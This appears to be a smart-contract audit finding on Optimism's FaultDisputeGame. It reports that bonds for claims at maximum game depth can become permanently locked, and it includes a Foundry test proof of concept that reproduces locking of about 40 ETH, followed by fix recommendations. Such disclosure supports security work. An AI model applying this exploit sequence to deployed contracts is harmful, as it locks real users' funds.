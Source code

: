 Sharp Pecan Ape

high

# Bonds at `MAX_GAME_DEPTH`` can be irrevocably locked

## Summary

Scenarios are possible, when the `FaultDisputeGame` as a whole resolves, but claims at `MAX_GAME_DEPTH` remain unresolved. As a result, all bonds associated with these unresolved claims become permanently locked.

## Vulnerability Detail

When the game DAG is extended with moves up to the last level (at `MAX_GAME_DEPTH`), and the claim at this level is countered by a step, the parent of the last-but-one claim is labeled as countered, but the last claim remains unresolved. As a result, it becomes possible to resolve all claims, excluding the claims at `MAX_GAME_DEPTH`, as well as to resolve the game as a whole, while the most deep claims remain unresolved. 

As the associated bonds are unlocked only when the claim is resolved, and it's not possible to resolve the claim when the whole game is resolved, the bonds associated with the most deep claims will become permanently locked.

The secondary vulnerability is associated with calculations of the clock duration. When [grandparent clock](https://github.com/sherlock-audit/2024-02-optimism-2024/blob/main/optimism/packages/contracts-bedrock/src/dispute/FaultDisputeGame.sol#L262-L280) is shifted, the clock of the deepest claim becomes shifted in such a way that it is not possible to resolve it before the whole game is resolved. Combined with the previous, there is not time period when the most deep claim may be resolved, leading to guaranteed locking of user funds, as the below coded PoC demonstrates.

## Impact

Permanent locking of user funds in unresolvable claims.

## Coded PoC

The below PoC is a slight adaptation of the test [test_resolve_bondPayoutsSeveralActors_succeeds](https://github.com/sherlock-audit/2024-02-optimism-2024/blob/main/optimism/packages/contracts-bedrock/test/dispute/FaultDisputeGame.t.sol#L725-L807). Copy-paste the PoC after this test, and execute with `forge test -vvvv --match-test test_exploit_lockFundsAtMaxGameDepth`. As can be seen, in case of a single unresolvable claim the amount of permanently locked funds is 39.99 Eth.

```solidity
    function test_exploit_lockFundsAtMaxGameDepth() public {
        // Give the test contract and bob some ether
        uint256 bal = 1000 ether;
        address bob = address(0xb0b);
        vm.deal(address(this), bal);
        vm.deal(bob, bal);


        // Make claims all the way down the tree, trading off between bob and the test contract.
        uint256 curBond = _getRequiredBond(0);
        uint256 thisBonded = curBond;
        gameProxy.attack{ value: curBond }(0, _dummyClaim());

        curBond = _getRequiredBond(1);
        uint256 bobBonded = curBond;
        vm.prank(bob);
        gameProxy.attack{ value: curBond }(1, _dummyClaim());

        curBond = _getRequiredBond(2);
        thisBonded += curBond;
        gameProxy.attack{ value: curBond }(2, _dummyClaim());

        curBond = _getRequiredBond(3);
        bobBonded += curBond;
        vm.prank(bob);
        gameProxy.attack{ value: curBond }(3, _dummyClaim());

        curBond = _getRequiredBond(4);
        thisBonded += curBond;
        gameProxy.attack{ value: curBond }(4, _changeClaimStatus(_dummyClaim(), VMStatuses.PANIC));

        curBond = _getRequiredBond(5);
        bobBonded += curBond;
        vm.prank(bob);
        gameProxy.attack{ value: curBond }(5, _dummyClaim());

        // The bond at MAX_GAME_DEPTH-1 is with a delay
        vm.warp(block.timestamp + 12 hours);
        curBond = _getRequiredBond(6);
        thisBonded += curBond;
        gameProxy.attack{ value: curBond }(6, _dummyClaim());

        // The bond at MAX_GAME_DEPTH is with a delay
        vm.warp(block.timestamp + 12 hours);
        curBond = _getRequiredBond(7);
        bobBonded += curBond;
        vm.prank(bob);
        gameProxy.attack{ value: curBond }(7, _dummyClaim());

        gameProxy.addLocalData(LocalPreimageKey.DISPUTED_L2_BLOCK_NUMBER, 8, 0);
        gameProxy.step(8, true, absolutePrestateData, hex"");

        // Ensure that the step successfully countered the leaf claim.
        (, address counteredBy,,,,,) = gameProxy.claimData(8);
        assertEq(counteredBy, address(this));

        // Ensure we bonded the correct amounts
        assertEq(address(this).balance, bal - thisBonded);
        assertEq(bob.balance, bal - bobBonded);
        assertEq(address(gameProxy).balance, 0);
        assertEq(delayedWeth.balanceOf(address(gameProxy)), thisBonded + bobBonded);

        vm.warp(block.timestamp + 2 days + 12 hours + 1 seconds);

        // The resolution of the last claim is not possible, because clock has not expired yet
        // Expect ClockNotExpired
        (bool success,) = address(gameProxy).call(abi.encodeCall(gameProxy.resolveClaim, gameProxy.claimDataLen()-1));
        assertFalse(success);

        // Resolve all claims, EXCEPT THE LAST ONE
        for (uint256 i = gameProxy.claimDataLen()-1; i > 0; i--) {
            (success,) = address(gameProxy).call(abi.encodeCall(gameProxy.resolveClaim, (i - 1)));
            assertTrue(success);
        }
        // Also resolve the whole game. Notice that the last claim stays unresolved
        gameProxy.resolve();

        // The resolution of the last claim is not possible anymore, as the game is resolved
        // Expect GameNotInProgress
        (success,) = address(gameProxy).call(abi.encodeCall(gameProxy.resolveClaim, gameProxy.claimDataLen()-1));
        assertFalse(success);

        // Wait for the withdrawal delay
        vm.warp(block.timestamp + delayedWeth.delay() + 1 seconds);

        // Claim credits        
        gameProxy.claimCredit(address(this));

        // Bob's claim should revert since it's value is 0
        vm.expectRevert(NoCreditToClaim.selector);
        gameProxy.claimCredit(bob);

        // Bob's balance is correct
        assertEq(bob.balance, bal - bobBonded);
        // This balance is not correct...
        assertEq(address(this).balance, bal + bobBonded - 39999999800000000000);
        // because part of it is irrevocably locked in the game.
        assertEq(delayedWeth.balanceOf(address(gameProxy)), 39999999800000000000);
    }
```

## Code Snippet

https://github.com/sherlock-audit/2024-02-optimism-2024/blob/main/optimism/packages/contracts-bedrock/src/dispute/FaultDisputeGame.sol#L217-L219

https://github.com/sherlock-audit/2024-02-optimism-2024/blob/main/optimism/packages/contracts-bedrock/src/dispute/FaultDisputeGame.sol#L262-L280

## Tool used

Manual Review; Foundry

## Recommendation

We recommend to fix the `step` function, in that when updating the parent claim as countered, it should also resolve the current claim. We further recommend to redesign the clock computations when grandparent clocks are involved.